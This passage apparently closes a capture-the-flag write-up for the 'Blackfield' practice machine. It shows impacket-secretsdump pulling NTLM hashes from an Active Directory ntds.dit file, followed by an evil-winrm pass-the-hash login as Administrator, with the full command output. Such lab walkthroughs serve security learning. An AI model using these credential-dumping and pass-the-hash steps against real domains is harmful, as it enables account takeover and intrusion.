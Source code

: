 ### Explanation:

- **impacket-secretsdump** is a tool from the **Impacket** suite that extracts credentials (such as NTLM hashes and Kerberos tickets) from **NTDS.dit** (the Active Directory database) and the **System Hive**.
- **-ntds ntds.dit**: Specifies the path to the **ntds.dit** file, which contains the Active Directory database.
- **-system system**: Points to the **System Hive** file, which contains critical information needed to decrypt the NTDS hashes.
- **local**: This is used to indicate that we are working on a local system (as opposed to a remote extraction).

Once executed, this tool will extract all relevant hashes (including NTLM) from the **ntds.dit** file, allowing us to crack them or use them for further exploitation.

````powershell
❯ impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:78e0033d60e6bd177c4dbd5cc0f97a9d:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
````

### Pass the hash as Administrator
---
Now that we have successfully dumped the **NTLM hash** for the **Administrator** account, we can authenticate by performing another **Pass-the-Hash** attack.
Finally, we have successfully authenticated as the **Administrator**, gaining full control over the target system.
````powershell
❯ evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   4:36 PM            447 notes.txt
-a----        11/5/2020   8:38 PM             32 root.txt

````

![netrunner](/assets/images/netrunner.gif)